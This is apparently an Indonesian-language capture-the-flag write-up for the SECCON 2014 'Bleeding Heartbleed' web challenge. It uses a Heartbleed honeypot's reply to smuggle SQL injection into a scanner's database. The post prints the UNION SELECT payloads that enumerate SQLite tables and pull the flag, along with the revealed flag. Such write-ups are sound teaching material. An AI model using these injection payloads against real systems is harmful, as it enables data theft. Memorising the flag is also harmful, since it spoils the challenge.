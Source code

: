 ```yaml
---
id: 413
title: Bleeding “Heartbleed” Web 300 pts Seccon CTF
date: 2014-12-09T10:15:04+00:00
author: abdilahrf
layout: post
guid: http://www.hasnydes.us/?p=413
permalink: /2014/12/bleeding-heartbleed-test-web-300-pts-seccon-ctf/
category: Web Exploitation
tags: [SecconCTF]
---
```

> <http://bleeding.pwn.seccon.jp/>

website check heartbleed , yang datanya di simpan ke database coba kita scan

> 173.194.65.100:443
> 
>     Connecting...
>     Sending Client Hello...
>     Waiting for Server Hello...
>      ... received message: type = 22, ver = 0302, length = 61
>      ... received message: type = 22, ver = 0302, length = 3852
>      ... received message: type = 22, ver = 0302, length = 331
>      ... received message: type = 22, ver = 0302, length = 4
>     Sending heartbeat request...
>     
>     

<!--more-->

view-source

> <pre><span class="pl-c">&lt;!-- DEBUG: INSERT OK. TIME=1417889356 --&gt;
</span></pre>

INSERT OK berarti masuk ke database, sepertinya ini ada sql injection cara kita inject dengan membuat honeypot vulnerability Heartbleed

gunakan script <a href="packetstormsecurity.com/files/126068/hb_honeypot.pl.txt" target="_blank">packetstormsecurity.com/files/126068/hb_honeypot.pl.txt</a> untuk membuat server anda menjadi vuln heartpbleed ,untuk bisa mengirimkan pesan inject nya jalankan honeypot dan scan ip anda

&nbsp;

> ifconfig
> 
> 120.33.21.66
> 
> perl hb_honeypot.pl
> 
> Scan  120.33.21.66:443 < via website
> 
> <span style="text-decoration: underline;">DATABASE ERROR!!!</span> <tt>near ".": syntax error</tt>
> 
> select time from results where result=&#8217;Connecting&#8230; Sending Client Hello&#8230; Waiting for Server Hello&#8230; &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 22, ver = 0301, length = 1 Sending heartbeat request&#8230; &#8230; received message: type = 24, ver = 0301, length = 249
> 
> Received heartbeat response: 09809\*)(\*)(76&^%&(*&^7657332
> 
> Hi there! Your scan has been logged! Have no fear, this is for research only &#8212; We&#8217;re never gonna give you up, never gonna let you down! WARNING: server returned more data than it should &#8211; server is vulnerable! &#8216;;

Kita coba lagi inject

> perl hb_honeypot.pl  &#8216; UNION SELECT 1337 WHERE 1=1 OR &#8216;1&#8217; LIKE &#8216;
> 
> view source
> 
> <span class="pl-c"><!&#8211; DEBUG: INSERT OK. TIME=1337 &#8211;></span>

untuk mendapatkan list table

> perl hb\_honeypot.pl &#8216; UNION SELECT group\_concat(name) FROM sqlite_master WHERE type=&#8217;table&#8217;;&#8211;
> 
> <pre><span class="pl-c">view source
&lt;!-- DEBUG: INSERT OK. TIME=results,ssFLGss,ttDMYtt --&gt;

</span></pre>

ambil kolom flag dari tabel results

> perl hb_honeypot.pl &#8216; UNION SELECT flag from ssFLGss WHERE 1=1 OR &#8216;1&#8217; LIKE &#8216;
> 
> view source
> 
>     <!-- DEBUG: INSERT OK. TIME=SECCON{IknewIt!SQLiteAgain!!!} -->
>     
>     

Other Source :

https://github.com/ctfs/write-ups/tree/master/seccon-ctf-2014/bleeding-heartbleed-test-web

<http://tasteless.eu/2014/12/seccon-ctf-2014-online-qualifications-web300-writeup/>

<div class='et_post_video'>
</div>
